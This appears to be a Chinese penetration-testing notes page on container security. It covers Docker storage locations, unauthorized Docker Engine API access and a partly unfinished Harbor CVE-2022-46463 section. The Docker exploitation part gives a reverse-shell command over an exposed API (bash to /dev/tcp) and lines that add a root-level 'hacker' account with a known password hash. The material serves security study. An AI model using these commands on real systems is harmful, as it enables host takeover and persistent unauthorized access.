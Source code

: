 # 容器安全

![docker-workflow](../images/docker-workflow.png)

## 在 Ubuntu 安装 Docker

在 Ubuntu 22.04 安装 Docker，

<https://docs.docker.com/engine/install/ubuntu/>

## 基本语法

```bash
$ docker info

...
 Storage Driver: overlay2
 Docker Root Dir: /var/lib/docker
...
```

以下列出了不同操作系统下 Docker 默认的存储位置，但请注意，这些位置可以通过配置更改：

* **Ubuntu:** `/var/lib/docker/`
  * **备注:** 这是 Ubuntu 系统上 Docker 镜像、容器层、数据卷和网络配置的默认存储位置。 渗透测试人员需要关注此目录下的文件，例如 `image/` (镜像层)， `containers/` (容器配置)， `volumes/` (数据卷) 等， 检查是否存在安全隐患.
* **Fedora:** `/var/lib/docker/`
  * **备注:** 与 Ubuntu 类似，此目录包含了 Fedora 系统中所有 Docker 相关的数据。需要注意的是，Fedora 可能使用 SELinux 进行强制访问控制，这可能会影响渗透测试过程中对文件的访问权限。
* **Debian:** `/var/lib/docker/`
  * **备注:** Debian 系统的 Docker 存储位置与 Ubuntu 基本相同。渗透测试人员应注意检查 Docker 配置文件的权限，例如 `/etc/docker/daemon.json`，防止恶意配置导致安全问题。
* **Windows:** `C:\ProgramData\DockerDesktop`
  * **备注:** 在 Windows 系统上，Docker Desktop 使用 Hyper-V 虚拟机来运行 Docker 守护进程。 实际的 Docker 数据存储在虚拟机的磁盘文件中。  渗透测试人员可以使用工具 (例如 PowerShell) 访问该目录，并分析虚拟机磁盘镜像。
* **MacOS:** `~/Library/Containers/com.docker.docker/Data/vms/0/~`
  * **备注:**  与 Windows 类似，Docker Desktop for Mac 也使用虚拟机。此路径指向虚拟机内部的 Docker 数据目录。 渗透测试人员可能需要借助特定的工具和技术来访问虚拟机内部的文件系统，例如使用 `docker exec` 命令进入容器，或者使用虚拟机管理工具访问虚拟磁盘。

Docker 根目录的内部结构，`/var/lib/docker` 目录中保存着各种信息，例如：容器数据、卷、构建文件、网络文件和集群数据。

```bash
$ sudo ls -al /var/lib/docker
total 52
drwx--x--- 12 root root 4096 Jul 30 08:03 .
drwxr-xr-x 50 root root 4096 Jul 23 10:45 ..
drwx--x--x  5 root root 4096 Jul 29 21:00 buildkit
drwx--x---  5 root root 4096 Jul 30 08:03 containers
-rw-------  1 root root   36 Jul 21 22:35 engine-id
drwx------  3 root root 4096 Jul 21 22:35 image
drwxr-x---  3 root root 4096 Jul 21 22:35 network
drwx--x--- 58 root root 4096 Jul 30 08:03 overlay2
drwx------  3 root root 4096 Jul 21 22:35 plugins
drwx------  2 root root 4096 Jul 30 08:03 runtimes
drwx------  2 root root 4096 Jul 21 22:35 swarm
drwx------  2 root root 4096 Jul 30 08:03 tmp
drwx-----x  2 root root 4096 Jul 30 08:03 volumes
```

## Docker Engine API 未授权访问

Docker Engine API 是 Docker 官方提供的 **RESTful API** 接口，用于与 Docker 守护进程（Docker Daemon）进行交互。该 API 支持通过 HTTP/HTTPS 协议对容器、镜像、网络、卷等核心资源进行全生命周期管理。

Docker 守护进程默认通过 Unix Domain Socket (`unix:///var/run/docker.sock`) 进行本地进程间通信（IPC）。但如果配置不当，例如将守护进程绑定到 0.0.0.0，则会暴露在网络上。如果没有设置访问权限控制，如未启用 TLS 认证或防火墙限制，攻击者就可以直接通过网络访问该 API，无需认证即可执行各种 Docker 操作命令。由于 Docker 默认以 root 权限运行，攻击者可利用其远程创建特权容器，进而控制宿主机。

### 环境搭建

默认情况下，Docker 守护进程通过 Unix 套接字监听本地客户端的连接请求。可以通过配置 Docker 同时监听 IP 地址、端口以及 Unix 套接字，使其能够接受来自远程客户端的请求。
<https://docs.docker.com/engine/daemon/remote-access/>

```bash
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375
```

### 漏洞利用

#### 宿主机文件系统挂载（`-v /:/mnt`）

```bash
docker -H tcp://x.x.x.x:2375 run --rm -v /:/mnt ubuntu chroot /mnt /bin/bash -c "bash -i >& /dev/tcp/192.168.1.130/4444 0>&1"
```

由于我们将宿主机的根目录挂载到容器中，因此可以从容器内直接修改宿主机的 `/etc/passwd` 和 `/etc/shadow` 文件，添加自定义用户或修改密码，进而通过 SSH 登录宿主机。

```bash
echo 'hacker:x:0:0:hacker,,,:/home/hacker:/bin/bash' >> /etc/passwd
```

| 字段 | 说明 |
|---|----|
| `hacker` | **用户名**：系统登录时使用的账户名称。 |
| `x` | **密码占位符**：实际密码加密后存储在 `/etc/shadow` 文件中。 |
| `0` | **用户ID (UID)**：唯一标识用户的数字，用于权限控制。 UID 0 是 root 的标识 |
| `0` | **用户组ID (GID)**：用户所属主组的唯一标识。 |
| `hacker,,,` | **用户描述信息**：可包含全名、联系方式等（此处为空）。 |
| `/home/hacker` | **家目录路径**：用户专属文件存储目录，默认位于 `/home/` 下。 |
| `/bin/bash` | **默认 Shell**：用户登录后启动的命令行解释器（此处为 Bash）。 |

密码哈希值（`$6` 表示 SHA-512 算法）,明文密码为`dev`。

```bash
echo 'hacker:$6$gB/z0wS0$BZ.Zoj6QsXn4uwKUi6/zZm0ga/IJf7YHVneEXut0I06.ZywgtKcB79Mj.EAymXubo8tuos9Fr.aFCWs8PNH6T1:17096:0:99999:7:::'>> /etc/shadow
```

#### 参考资料

* <https://github.com/0xchang/DockerApiRCE>
* <https://www.trendmicro.com/en_hk/research/24/j/attackers-target-exposed-docker-remote-api-servers-with-perfctl-.html>
* <https://medium.com/@cloudsectraining/abusing-docker-remote-api-bef6a099cfd3>

## Habor 未授权访问漏洞（CVE-2022-46463）

Harbor 是一个开源的 **企业级容器镜像仓库**，由 VMware 公司（现为 Broadcom 旗下）开发并捐赠给 CNCF（云原生计算基金会）。它提供了安全、高效的 Docker 镜像存储和管理功能，适用于企业级 DevOps 和云原生环境。

Harbor 采用 微服务架构，主要组件包括：

Core：核心服务，处理 API 请求。
Registry：存储 Docker 镜像（基于 Distribution）。
Database（PostgreSQL）：存储用户、项目、权限等元数据。
Redis：缓存会话和临时数据。
Job Service：处理异步任务（如镜像复制、垃圾回收）。
Portal：Web UI 管理界面。
Notary（可选）：镜像签名验证。
Trivy/Clair（可选）：漏洞扫描。

由于 Harbor 的访问控制缺陷，未认证的攻击者可通过该漏洞获取公开和私有镜像仓库的全部信息，对私有仓库的未授权访问可能泄露专有应用代码、容器镜像中硬编码的凭据或令牌，还可能暴露过时镜像中的安全漏洞。

```bash
docker save 
```

### 环境搭建

```bash

```

### 漏洞利用

Docker 镜像导出

<https://docs.docker.com/reference/cli/docker/image/save/>

docker inspect

检查 `.tar` 文件结构, tar -tf

mkdir ubuntu && tar -xf ubuntu.tar -C ubuntu

### 参考资料

* <https://github.com/404tk/CVE-2022-46463>
* <https://mp.weixin.qq.com/s/21V_TACA-UEeKdM2_D-0oQ>
* <https://blog.hans362.cn/post/sjtu-ctf-2023-writeup/#exsecurity_flag_r>
